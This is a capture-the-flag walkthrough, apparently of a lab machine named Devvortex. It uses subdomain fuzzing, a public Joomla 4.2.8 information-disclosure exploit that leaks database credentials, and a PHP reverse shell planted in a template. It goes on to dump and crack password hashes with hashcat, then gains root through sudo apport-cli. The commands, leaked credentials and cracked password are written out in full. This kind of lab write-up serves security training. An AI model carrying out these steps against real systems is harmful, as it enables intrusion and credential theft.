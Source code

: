 # DEVVORTEX

as usual check ip on firefox gave us our domain name: devvortex.htb

Nothing seems interesting on the website 

Well after quite some time of research 
```
wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb/ -H 'Host: FUZZ.devvortex.htb' -t 50 --hc 302
```

We can find that there is a dev.devvortex.htb domain so we add that to our /etc/hosts

error page 
```
The requested page can't be found.

An error has occurred while processing your request.
```

probably joomla CMS

found : http://dev.devvortex.htb/robots.txt
```
User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

It was indeed joomla 
http://dev.devvortex.htb//administrator/

little bit of google search Joomla! v4.2.8 - Unauthenticated information disclosure 
```
https://www.exploit-db.com/exploits/51334
```

running the exploit 
```
└─$ sudo ruby joomla_expl.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

We can sign up as MR lewis 

Once we are logged in we can add content to the website we will make a new php page which will be a reverseshell 
System -> site template -> cassiopeia -> create a new file -> reverse.php 

user.txt is in /home/logan 

we try to acces database as lewis 
```
www-data@devvortex:/$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##
```
```
mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-12-09 11:48:17 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

from here we try to hashcat the hash wich seems to be a 3200 (bcrypt $2*$, Blowfish (Unix))

so 
```
hashcat  -m 3200 -a 0 ./logan.hashed /usr/share/wordlists/rockyou.txt
```

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho

we can now ssh as logan@devvortex.htb with password tequieromucho

we have user.txt here
```
logan@devvortex:/tmp$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

in order to make the apport-cli cve to work we need a crash report so 
```
logan@devvortex:~$ sleep 60 &
[1] 1228
logan@devvortex:~$ kill -SIGSEGV 1228
logan@devvortex:~$ ls /var/crash/
_usr_bin_sleep.1000.crash
```

then all we need is to 
```
sudo /usr/bin/apport-cli /var/crash/_usr_bin_sleep.1000.crash
```

Press v to see the report and we are root  

Rooted 
